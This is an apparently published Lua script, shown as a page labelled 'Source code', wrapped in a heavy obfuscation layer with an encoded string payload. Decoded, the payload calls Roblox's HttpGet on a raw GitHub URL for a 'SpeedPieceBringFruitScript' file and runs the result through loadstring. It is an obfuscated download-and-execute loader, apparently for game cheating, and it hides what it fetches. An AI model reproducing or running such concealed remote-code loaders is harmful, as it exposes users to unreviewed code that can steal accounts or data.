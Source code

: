 

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v83=0;while true do if (v83==0) then v19=v0(v3(v30,1,1));return "";end end else local v84=v2(v0(v30,16));if v19 then local v91=v5(v84,v19);v19=nil;return v91;else return v84;end end end);local function v20(v31,v32,v33) if v33 then local v85=(v31/((5 -3)^(v32-(2 -1))))%((3 -1)^(((v33-1) -(v32-1)) + (2 -1))) ;return v85-(v85%((98 + 522) -(555 + (941 -(282 + 595))))) ;else local v86=(933 -(857 + 74))^(v32-(569 -(367 + 201))) ;return (((v31%(v86 + v86))>=v86) and (928 -(214 + 713))) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=1637 -(1523 + 114) ;local v36;local v37;while true do if (v35==(1 + 0)) then return (v37 * 256) + v36 ;end if (v35==(0 -0)) then v36,v37=v1(v16,v18,v18 + (2 -0) );v18=v18 + ((1184 -(32 + 85)) -(68 + 997)) ;v35=1271 -(226 + 1044) ;end end end local function v23() local v38=0 + 0 ;local v39;local v40;local v41;local v42;while true do if (v38==(1 + 0)) then return (v42 * 16777216) + (v41 * (65886 -(87 + 263))) + (v40 * 256) + v39 ;end if (v38==(957 -(892 + 65))) then v39,v40,v41,v42=v1(v16,v18,v18 + (7 -4) );v18=v18 + (6 -2) ;v38=(181 -(67 + 113)) -0 ;end end end local function v24() local v43=v23();local v44=v23();local v45=1 + 0 ;local v46=(v20(v44,1,49 -(820 -(368 + 423)) ) * ((2 + (0 -0))^(50 -(10 + 8)))) + v43 ;local v47=v20(v44,(318 -235) -62 ,983 -(802 + 150) );local v48=((v20(v44,85 -53 )==1) and  -(1 -0)) or (1 + 0) ;if (v47==0) then if (v46==(997 -(915 + 82))) then return v48 * ((442 -(416 + 26)) -(0 -0)) ;else v47=1 + 0 + 0 ;v45=0 -0 ;end elseif (v47==((5722 -2488) -(1069 + 118))) then return ((v46==(0 -0)) and (v48 * ((1 -(438 -(145 + 293)))/(0 + 0)))) or (v48 * NaN) ;end return v8(v48,v47-(1817 -794) ) * (v45 + (v46/((2 + 0)^52))) ;end local function v25(v49) local v50;if  not v49 then local v87=430 -(44 + 386) ;while true do if (v87==(0 -0)) then v49=v23();if (v49==(1486 -(998 + 488))) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -(1 + 0) );v18=v18 + v49 ;local v51={};for v66=1 + (0 -0) , #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 1707 -(856 + 851) ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do local v68=(function() return 1763 -(454 + 1309) ;end)();while true do if (v68==(0 + 0)) then local v92=(function() return 0 -0 ;end)();while true do if (0~=v92) then else if (v52==(1 -0)) then local v128=(function() return 0;end)();local v129=(function() return;end)();while true do if (v128==0) then v129=(function() return 0 -0 ;end)();while true do if (v129~=(285 -(134 + 151))) then else local v161=(function() return 0;end)();while true do if (1~=v161) then else v129=(function() return 1;end)();break;end if (v161==0) then v57=(function() return {v54,v55,nil,v56};end)();v58=(function() return v23();end)();v161=(function() return 1;end)();end end end if (v129==(1666 -(970 + 695))) then local v162=(function() return 0;end)();while true do if (v162~=(1 -0)) then else v129=(function() return 2;end)();break;end if (v162==(1990 -(582 + 1408))) then v59=(function() return {};end)();for v170= #"!",v58 do local v171=(function() return 0;end)();local v172=(function() return;end)();local v173=(function() return;end)();local v174=(function() return;end)();while true do if (v171~=1) then else v174=(function() return nil;end)();while true do if (v172==(0 -0)) then local v181=(function() return 0;end)();while true do if (v181==0) then v173=(function() return v21();end)();v174=(function() return nil;end)();v181=(function() return 1 -0 ;end)();end if (v181==(3 -2)) then v172=(function() return 1;end)();break;end end end if ((1825 -(1195 + 629))==v172) then if (v173== #"[") then v174=(function() return v21()~=0 ;end)();elseif (v173==(2 -0)) then v174=(function() return v24();end)();elseif (v173== #"91(") then v174=(function() return v25();end)();end v59[v170]=(function() return v174;end)();break;end end break;end if (v171==(241 -(187 + 54))) then v172=(function() return 780 -(162 + 618) ;end)();v173=(function() return nil;end)();v171=(function() return 1 + 0 ;end)();end end end v162=(function() return 1;end)();end end end if (v129==(2 + 0)) then v52=(function() return 2;end)();break;end end break;end end end if (v52==(3 -1)) then v57[ #"xxx"]=(function() return v21();end)();for v134= #"|",v23() do local v135=(function() return v21();end)();if (v20(v135, #"\\", #"\\")==(0 -0)) then local v151=(function() return 0 + 0 ;end)();local v152=(function() return;end)();local v153=(function() return;end)();local v154=(function() return;end)();while true do if (v151==(1639 -(1373 + 263))) then if (v20(v153, #"19(", #"-19")== #",") then v154[ #"xnxx"]=(function() return v59[v154[ #"0836"]];end)();end v54[v134]=(function() return v154;end)();break;end if (v151~=1) then else local v164=(function() return 0;end)();while true do if ((1001 -(451 + 549))~=v164) then else v151=(function() return 1 + 1 ;end)();break;end if (v164==0) then v154=(function() return {v22(),v22(),nil,nil};end)();if (v152==(0 -0)) then local v175=(function() return 1384 -(746 + 638) ;end)();local v176=(function() return;end)();while true do if (v175~=0) then else v176=(function() return 0 + 0 ;end)();while true do if (v176==0) then v154[ #"gha"]=(function() return v22();end)();v154[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v152== #"!") then v154[ #"xnx"]=(function() return v23();end)();elseif (v152==(2 -0)) then v154[ #"-19"]=(function() return v23() -(2^(357 -(218 + 123))) ;end)();elseif (v152== #"asd") then local v185=(function() return 0;end)();local v186=(function() return;end)();while true do if (v185==0) then v186=(function() return 0;end)();while true do if (v186==0) then v154[ #"91("]=(function() return v23() -(2^(1597 -(1535 + 46))) ;end)();v154[ #"?id="]=(function() return v22();end)();break;end end break;end end end v164=(function() return 1;end)();end end end if ((2 + 0)~=v151) then else if (v20(v153, #"[", #"{")== #"<") then v154[1 + 1 ]=(function() return v59[v154[562 -(306 + 254) ]];end)();end if (v20(v153,1 + 1 ,3 -1 )~= #">") then else v154[ #"-19"]=(function() return v59[v154[ #"19("]];end)();end v151=(function() return 1470 -(899 + 568) ;end)();end if (v151~=(0 + 0)) then else local v165=(function() return 0;end)();local v166=(function() return;end)();while true do if (v165==0) then v166=(function() return 0;end)();while true do if (v166~=0) then else v152=(function() return v20(v135,4 -2 , #"asd");end)();v153=(function() return v20(v135, #"?id=",609 -(268 + 335) );end)();v166=(function() return 1;end)();end if (v166==(291 -(60 + 230))) then v151=(function() return 573 -(426 + 146) ;end)();break;end end break;end end end end end end for v136= #"]",v23() do v55,v136,v28=(function() return v53(v55,v136,v28);end)();end return v57;end v92=(function() return 1 + 0 ;end)();end if (v92~=1) then else v68=(function() return 1;end)();break;end end end if (v68~=(1457 -(282 + 1174))) then else if ((811 -(569 + 242))==v52) then local v97=(function() return 0 -0 ;end)();while true do if (v97==1) then v55=(function() return {};end)();v56=(function() return {};end)();v97=(function() return 2;end)();end if (v97~=2) then else v52=(function() return 1;end)();break;end if (v97==0) then v53=(function() return function(v142,v143,v144) local v145=(function() return 0;end)();while true do if (v145==0) then local v156=(function() return 0;end)();local v157=(function() return;end)();while true do if ((0 + 0)==v156) then v157=(function() return 1024 -(706 + 318) ;end)();while true do if (v157==(1251 -(721 + 530))) then local v177=(function() return 1271 -(945 + 326) ;end)();while true do if (v177==0) then v142[v143-#"~" ]=(function() return v144();end)();return v142,v143,v144;end end end end break;end end end end end;end)();v54=(function() return {};end)();v97=(function() return 1;end)();end end end break;end end end end local function v29(v60,v61,v62) local v63=v60[(1 + 1) -1 ];local v64=v60[2 + 0 ];local v65=v60[703 -(271 + 429) ];return function(...) local v69=v63;local v70=v64;local v71=v65;local v72=v27;local v73=1;local v74= -(1 + 0);local v75={};local v76={...};local v77=v12("#",...) -1 ;local v78={};local v79={};for v88=1086 -(166 + 295 + 625) ,v77 do if (v88>=v71) then v75[v88-v71 ]=v76[v88 + (1289 -(993 + 295)) ];else v79[v88]=v76[v88 + 1 ];end end local v80=(v77-v71) + 1 ;local v81;local v82;while true do v81=v69[v73];v82=v81[1];if (v82<=(1 + 2)) then if (v82<=(1172 -(418 + 753))) then if ((v82>0) or (2689<=343)) then local v98=v81[1 + 1 ];v79[v98]=v79[v98](v13(v79,v98 + 1 + 0 ,v74));else local v100=(0 -0) + 0 ;local v101;local v102;while true do if (v100==((2 -1) + 0)) then v79[v101 + (530 -((1957 -(1126 + 425)) + 123)) ]=v102;v79[v101]=v102[v81[1773 -((2154 -(118 + 287)) + 20) ]];break;end if ((v100==(0 + 0)) or (1869==2009)) then v101=v81[1324 -(1249 + 73) ];v102=v79[v81[3]];v100=1 + 0 ;end end end elseif (v82==(1147 -(466 + 679))) then v79[v81[4 -2 ]]=v81[8 -5 ];else v79[v81[1902 -(106 + 1794) ]]={};end elseif (v82<=(2 + 3)) then if ((v82==(2 + 2)) or (3546<2322)) then v79[v81[5 -3 ]]=v62[v81[3]];else local v108;local v109,v110;local v111;local v112;v79[v81[5 -3 ]]={};v73=v73 + (115 -(4 + 110)) ;v81=v69[v73];v79[v81[(2296 -1710) -(57 + 527) ]]=v62[v81[1430 -(41 + 1386) ]];v73=v73 + 1 ;v81=v69[v73];v79[v81[105 -(17 + 86) ]]=v62[v81[3 + (1121 -(118 + 1003)) ]];v73=v73 + (1 -0) ;v81=v69[v73];v112=v81[5 -3 ];v111=v79[v81[169 -(122 + (128 -84)) ]];v79[v112 + (1 -0) ]=v111;v79[v112]=v111[v81[12 -8 ]];v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[1 + 1 ]]=v81[(382 -(142 + 235)) -2 ];v73=v73 + (66 -(30 + 35)) ;v81=v69[v73];v112=v81[2 + 0 ];v109,v110=v72(v79[v112](v13(v79,v112 + (1258 -(1043 + 214)) ,v81[11 -8 ])));v74=(v110 + v112) -(1213 -(323 + (4032 -3143))) ;v108=0 -0 ;for v131=v112,v74 do v108=v108 + 1 ;v79[v131]=v109[v108];end v73=v73 + ((127 + 454) -(361 + 219)) ;v81=v69[v73];v112=v81[322 -((1030 -(553 + 424)) + 267) ];v79[v112]=v79[v112](v13(v79,v112 + 1 ,v74));v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[415 -(15 + 398) ]]();v73=v73 + (983 -(18 + 964)) ;v81=v69[v73];do return;end end elseif (v82<=6) then do return;end elseif ((v82==(13 -6)) or (2082==4773)) then local v137=0;local v138;local v139;local v140;local v141;while true do if (2==v137) then for v158=v138,v74 do v141=v141 + (3 -2) ;v79[v158]=v139[v141];end break;end if (v137==(1 + 0)) then v74=(v140 + v138) -(1 + 0 + 0) ;v141=850 -(20 + 830) ;v137=2 + 0 + 0 ;end if (v137==(126 -(116 + 10))) then v138=v81[1 + 1 ];v139,v140=v72(v79[v138](v13(v79,v138 + (739 -(542 + 115 + 81)) ,v81[6 -(2 + 1) ])));v137=1;end end else v79[v81[2]]();end v73=v73 + 1 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q7470476574035D3Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F4165676F6E612F53702Q656450696563654272696E6746727569745363726970742F726566732F68656164732F6D61696E2F524541444D452E6D6400094Q00057Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
